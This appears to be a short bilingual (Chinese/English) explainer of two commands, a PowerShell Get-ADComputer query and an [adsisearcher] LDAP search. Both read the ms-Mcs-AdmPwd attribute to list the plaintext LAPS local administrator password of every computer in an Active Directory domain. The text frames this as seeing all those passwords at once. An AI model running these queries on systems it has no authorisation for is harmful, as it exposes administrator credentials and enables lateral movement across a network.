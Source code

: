 ```PowerShell
Get-ADComputer -Filter * -Property ms-Mcs-AdmPwd |
    Select-Object Name, ms-Mcs-AdmPwd

```

解释：

- `Get-ADComputer -Filter *` → 获取域内所有计算机对象。
- `Property ms-Mcs-AdmPwd` → 额外取出 `ms-Mcs-AdmPwd` 这个属性（即本地管理员密码）。
- `Select-Object Name, ms-Mcs-AdmPwd` → 只显示主机名和对应的密码。

执行结果就是：**你能一次性看到整个域内所有机器的本地管理员明文密码**。

```JavaScript
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { $_.properties}
```

- `**[adsisearcher]**` → Creates a DirectorySearcher object.
- **Filter** `**(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))**` →
    - `objectCategory=computer` → Only computer objects.
    - `ms-MCS-AdmPwd=*` → Only computers that have a LAPS-managed password set.
    - `sAMAccountName=*` → Ensures you only return objects with a SAM account name (all AD computers have one anyway).
- `**.findAll()**` → Executes the LDAP query and returns all results.
- `**ForEach-Object { $_.properties }**` → Dumps the AD properties of each computer object.